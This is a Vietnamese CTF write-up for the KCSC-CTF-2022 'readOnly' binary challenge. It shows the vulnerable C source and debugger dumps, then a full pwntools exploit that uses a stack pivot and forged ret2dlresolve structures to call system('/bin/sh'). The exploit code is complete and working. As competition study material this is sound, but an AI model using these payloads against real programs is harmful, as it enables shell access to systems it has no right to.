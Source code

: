 # Tham khảo
[https://github.com/nhtri2003gmail/CTFWriteup](https://github.com/nhtri2003gmail/CTFWriteup)

# Source C

```c
ssize_t vuln()
{
  char buf[48]; // [rsp+0h] [rbp-30h] BYREF

  return read(0, buf, 0x100uLL);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  vuln();
  return 0;
}
```

# Ý tưởng

- Đã tham khảo wu a Trí [link](https://github.com/nhtri2003gmail/CTFWriteup/tree/master/2022/KCSC-CTF-2022/readOnly)
- Chall này chỉ có hàm read nên hướng sẽ là ret2dlresolve, nếu địa chỉ là 0x40xxxx thì nhận luôn

- Tổng kết:

  - Stage 1: Stack pivot
  - Stage 2.1: Ret2dlresolve - Create structures
  - Stage 2.2: Ret2dlresolve - Get shell

# Khai thác

## Stack pivot

- chúng ta cần các gadget là `leave ; ret` (hoặc `pop rsp`), `pop rbp, rdi, rsp` và địa chỉ có quyền ghi được

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00000000400000 0x00000000401000 0x00000000000000 r-- /mnt/d/ctf/kcsc-2022/readOnly/readOnly
0x00000000401000 0x00000000402000 0x00000000001000 r-x /mnt/d/ctf/kcsc-2022/readOnly/readOnly
0x00000000402000 0x00000000403000 0x00000000002000 r-- /mnt/d/ctf/kcsc-2022/readOnly/readOnly
0x00000000403000 0x00000000404000 0x00000000002000 r-- /mnt/d/ctf/kcsc-2022/readOnly/readOnly
0x00000000404000 0x00000000405000 0x00000000003000 rw- /mnt/d/ctf/kcsc-2022/readOnly/readOnly
0x007f749fb41000 0x007f749fb44000 0x00000000000000 rw-

gef➤  x/50xg 0x00000000404000
0x404000:       0x0000000000403e20      0x00007f749fdb32e0
0x404010:       0x00007f749fd8dd30      0x00007f749fc2e5b0
0x404020 <read@got.plt>:        0x00007f749fc58980      0x00007f749fbc5670
0x404030:       0x0000000000000000      0x0000000000000000
0x404040 <stdout@@GLIBC_2.2.5>: 0x00007f749fd5e780      0x0000000000000000
0x404050 <stdin@@GLIBC_2.2.5>:  0x00007f749fd5daa0      0x0000000000000000
0x404060 <stderr@@GLIBC_2.2.5>: 0x00007f749fd5e6a0      0x0000000000000000
0x404070:       0x0000000000000000      0x0000000000000000
0x404080:       0x0000000000000000      0x0000000000000000
0x404090:       0x0000000000000000      0x0000000000000000
0x4040a0:       0x0000000000000000      0x0000000000000000
```

- ta lấy bao nhiêu cũng được mà nên xa xa một xíu, nên `base + 0xa00`.

```python
pop_rdi = 0x0000000000401293
pop_rsi_r15 = 0x0000000000401291
leave_ret = 0x0000000000401208
rw_section = 0x00000000404a00

payload = b'A'*(56)
payload += flat(
#     rw_section,
    pop_rsi_r15,
    rw_section,
    0,
    exe.plt['read'],
    leave_ret
    )
payload = payload.ljust(0x100, b'P')
p.send(payload)
```

- mục đích gọi lại read là để ta có thể đưa các struct vào vùng rw để thực thi

# Create structures

- đầu tiên ta sẽ chọn ra địa chỉ cho SYMTAB_addr, JMPREL_addr và STRTAB_addr (nằm trong vùng ghi được vừa tìm được ở bước 1) với điều kiện là `symbol_number`, `reloc_arg`, `st_name` là số nguyên

```
    <Address of Elf64_Sym> = <SYMTAB> + <symbol_number> * 24
<=> <symbol_number> = (<Address of Elf64_Sym> - <SYMTAB>)/24

    <Address of Elf64_Rela> = <JMPREL> + <reloc_arg> * 24
<=> <reloc_arg> = (<Address of Elf64_Rela> - <JMPREL>)/24
    <Address of Elf64_>
    st_name = STRTAB_addr - STRTAB
```

- Với các `SYSTAB, JMPREL, STRTAB` có trong file

```
JMPREL =>   0x00000000004005b8 - 0x0000000000400600 is .rela.plt
SYSTAB =>   0x00000000004003d0 - 0x00000000004004a8 is .dynsym
STRTAB =>   0x00000000004004a8 - 0x0000000000400507 is .dynstr
dlsolve=>    0x0000000000401020 - 0x0000000000401060 is .plt
```

- và

```python
JMPREL = 0x4005b8
SYMTAB = 0x4003d0
STRTAB = 0x4004a8
dlresolve = 0x401020
```

- và tìm các addr theo điều kiện ở trên, và địa chỉ các addr phải ở trong vùng ghi được
- tình hình là bây giờ chúng ta sẽ chọn addr, tuy nhiên base của ta chọn là `0x404a00` và payload được nhập là 0x100 kí tự nghĩa là ta sẽ chọn các số sao cho trong khoảng 0xa00 đến 0xb00
- Kết quả của a Trí tính được là như này

```python
SYMTAB_addr = 0x404a50
JMPREL_addr = 0x404a70
STRTAB_addr = 0x404a90
symbol_number = int((SYMTAB_addr - SYMTAB)/24)
reloc_arg = int((JMPREL_addr - JMPREL)/24)
st_name = STRTAB_addr - STRTAB
```

## SYMTAB_struct

```python
st_info = 0x12
st_other = 0
st_shndx = 0
st_value = 0
st_size = 0
SYMTAB_struct = p32(st_name) \
	+ p8(st_info) \
	+ p8(st_other) \
	+ p16(st_shndx) \
	+ p64(st_value) \
	+ p64(st_size)
```

## JMPREL_struct

```python
r_offset = 0x404b30               # địa chỉ ghi được là được
r_info = (symbol_number << 32) | 7
r_addend = 0
JMPREL_struct = flat(r_offset, r_info, r_addend)
```

## get shell

```python
payload = flat(
	b'A'*8, 0x000000000040101a,
	pop_rsi_r15,
	0,
	0,
	pop_rdi,
	0x404a98,		# String /bin/sh
	dlresolve,
	reloc_arg,		# Reloc_arg
	0,
	SYMTAB_struct,
	0,
	JMPREL_struct,
	0,
	b'system\x00\x00',
	b'/bin/sh\x00'
	)
p.send(payload)
```

- Ta cần dừng lại trước khi chạy dlresolve để kiểm tra
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/875ff03c-59f2-421a-9a90-07bfe1721fab)

```
gef➤  x/xg $rsp
0x404a40:       0x00000000000002dd # reloc_arg (giống offset)

gef➤  x/3xg 0x4005b8 + 0x2dd*24
0x404a70:       0x0000000000404b30      0x000002f000000007
0x404a80:       0x0000000000000000

gef➤  x/3xg 0x4003d0+(0x000002f000000007>>32)*24
0x404a50:       0x00000012000045e8      0x0000000000000000
0x404a60:       0x0000000000000000

gef➤  x/s 0x4004a8 + 0x45e8
0x404a90:       "system"
```

![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/6ee69721-0bb7-45d4-90d3-b77b63d25f90)

<details> <summary> full script </summary>

```python
#!/usr/bin/python3

from pwn import *
import subprocess

context.binary = exe = ELF('./readOnly', checksec=False)
context.log_level = 'info'

p = process('./readOnly')
gdb.attach(p, gdbscript = '''
           b*main+34
           b*vuln+36
           c

           ''')
input()
# p = remote('139.180.134.15', 7334)

############################
### Stage 1: Stack pivot ###
############################
pop_rdi = 0x0000000000401293
pop_rsi_r15 = 0x0000000000401291
leave_ret = 0x0000000000401208
rw_section = 0x00000000404a00

payload = b'A'*(56-8)
payload += flat(
	rw_section,
	pop_rsi_r15,
	rw_section,
	0,
	exe.plt['read'],
	leave_ret
	)
payload = payload.ljust(0x100, b'P')
p.send(payload)

####################################################
### Stage 2.1: Ret2dlresolve - Create structures ###
####################################################
# Set up structure
JMPREL = 0x4005b8
SYMTAB = 0x4003d0
STRTAB = 0x4004a8
dlresolve = 0x401020

SYMTAB_addr = 0x404a50
JMPREL_addr = 0x404a70
STRTAB_addr = 0x404a90
symbol_number = int((SYMTAB_addr - SYMTAB)/24)
reloc_arg = int((JMPREL_addr - JMPREL)/24)
st_name = STRTAB_addr - STRTAB

st_info = 0x12
st_other = 0
st_shndx = 0
st_value = 0
st_size = 0
SYMTAB_struct = p32(st_name) \
	+ p8(st_info) \
	+ p8(st_other) \
	+ p16(st_shndx) \
	+ p64(st_value) \
	+ p64(st_size)

r_offset = 0x404b30
r_info = (symbol_number << 32) | 7
r_addend = 0
JMPREL_struct = flat(r_offset, r_info, r_addend)

############################################
### Stage 2.2: Ret2dlresolve - Get shell ###
############################################
payload = flat(
	b'A'*8, 0x000000000040101a,
	pop_rsi_r15,
	0,
	0,
	pop_rdi,
	0x404a98,		# String /bin/sh
	dlresolve,
	reloc_arg,		# Reloc_arg
	0,
	SYMTAB_struct,
	0,
	JMPREL_struct,
	0,
	b'system\x00\x00',
	b'/bin/sh\x00'
	)
p.send(payload)

p.interactive()
```

</details>
